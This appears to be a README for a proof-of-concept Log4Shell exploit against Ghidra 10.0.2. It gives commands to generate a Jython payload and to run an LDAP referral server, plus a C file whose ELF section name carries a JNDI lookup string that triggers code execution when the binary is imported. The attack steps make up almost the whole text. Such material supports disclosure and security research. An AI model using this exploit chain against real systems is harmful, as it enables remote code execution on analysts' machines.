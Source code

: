 An exploit for Log4Shell for Ghidra 10.0.2 on macOS. (Should also work on other OSes)

```
$ java -version
openjdk version "11.0.4" 2019-07-16 LTS
OpenJDK Runtime Environment Corretto-11.0.4.11.1 (build 11.0.4+11-LTS)
OpenJDK 64-Bit Server VM Corretto-11.0.4.11.1 (build 11.0.4+11-LTS, mixed mode)
```

You will need https://github.com/pingidentity/ldapsdk/releases/tag/6.0.3

Generate the payload:

```
java -jar /Users/zhuowei/Downloads/ghidra_10.0.2_PUBLIC/Ghidra/Features/Python/lib/jython-standalone-2.7.2.jar generate_jython_payload.py
```

Java 17 users may need to run instead:

```
java --add-opens java.base/java.util=ALL-UNNAMED -jar /Users/zhuowei/Downloads/ghidra_10.0.2_PUBLIC/Ghidra/Features/Python/lib/jython-standalone-2.7.2.jar generate_jython_payload.py
```

Compile and start the LDAP server:

```
javac -cp .:/Users/zhuowei/Downloads/unboundid-ldapsdk-6.0.3/unboundid-ldapsdk.jar LDAPRefServer.java
java -cp .:/Users/zhuowei/Downloads/unboundid-ldapsdk-6.0.3/unboundid-ldapsdk.jar LDAPRefServer 1234
```


Compile the malicious executable into ELF format:

```
__attribute__((__section__(".note.${jndi:ldap://127.0.0.1:1234/abc}")))
int a = 1;
int main(){}
```

```
gcc poc.c
```

Import into Ghidra. A calculator should pop up.
